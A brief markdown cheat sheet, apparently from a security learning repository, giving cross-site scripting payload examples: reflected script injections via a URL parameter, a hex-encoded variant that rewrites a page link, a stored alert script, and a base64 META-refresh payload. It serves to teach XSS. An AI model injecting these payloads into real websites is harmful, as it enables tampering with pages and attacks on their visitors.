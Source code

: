 # XSS

[Reference][1]

## Non-Persistent

```javascript
?name=juette<script>alert('XSS!')</script>
```

```javascript
?name=juette<script>window.onload = function() {var link=document.getElementsByClassName("btn");link[0].href="https://duckduckgo.com/";}</script>
```

Encode the string from ASCI to Hex (http://convertstring.com/de/EncodeDecode/HexEncode):
```
?name=Fabian%3c%73%63%72%69%70%74%3e%77%69%6e%64%6f%77%2e%6f%6e%6c%6f%61%64%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%76%61%72%20%6c%69%6e%6b%3d%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%73%42%79%43%6c%61%73%73%4e%61%6d%65%28%22%62%74%6e%22%29%3b%6c%69%6e%6b%5b%30%5d%2e%68%72%65%66%3d%22%68%74%74%70%73%3a%2f%2f%64%75%63%6b%64%75%63%6b%67%6f%2e%63%6f%6d%2f%22%3b%7d%3c%2f%73%63%72%69%70%74%3e
```

## Persistent XSS Attack

```javascript

<script>alert('XSS!')</script>
```

[Reference][2] -
XSS using code encoding. Encode our script in base64 and place it in META tag.

```html
<META HTTP-EQUIV="refresh"
CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTIScpPC9zY3JpcHQ+">
```

[1]: http://www.thegeekstuff.com/2012/02/xss-attack-examples/
[2]: https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
